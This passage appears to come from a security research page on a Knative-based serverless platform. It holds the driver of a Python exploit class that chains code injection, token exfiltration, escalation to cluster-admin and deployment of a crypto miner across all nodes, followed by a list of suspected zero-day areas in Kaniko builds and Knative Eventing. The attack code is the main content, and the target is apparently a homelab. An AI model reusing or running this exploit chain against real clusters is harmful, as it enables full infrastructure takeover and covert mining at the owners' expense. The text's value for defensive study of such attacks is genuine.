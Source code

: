 ```python
        return resp.status_code == 201
    
    def pwn(self):
        """Execute full exploit chain"""
        print("[*] Starting exploit chain...")
        
        print("[*] Stage 1: Injecting malicious code...")
        if self.stage1_inject_code():
            print("[+] Code injected successfully!")
        else:
            print("[-] Stage 1 failed")
            return False
        
        print("[*] Stage 2: Waiting for token exfiltration...")
        # In real exploit, would wait for HTTP callback with token
        token = input("Enter exfiltrated token: ")
        
        if self.stage2_get_token(token):
            print("[+] Escalated to cluster-admin!")
        else:
            print("[-] Stage 2 failed")
            return False
        
        print("[*] Stage 3: Deploying payload...")
        if self.stage3_deploy_payload(token):
            print("[+] Payload deployed! Crypto miner running on all nodes.")
            print("[+] Full cluster compromise achieved!")
            return True
        else:
            print("[-] Stage 3 failed")
            return False

if __name__ == "__main__":
    exploit = KnativeLambdaExploit("http://knative-lambda.homelab")
    exploit.pwn()
```

---

## 🔬 0-Day Research Areas

### Potential 0-Day Vulnerabilities to Explore

1. **Kaniko Build Process**
   - Race conditions in layer caching
   - Path traversal in COPY commands
   - Privilege escalation via --chown flag

2. **Knative Eventing**
   - CloudEvent schema bypass
   - Event filter evasion
   - Broker authentication bypass
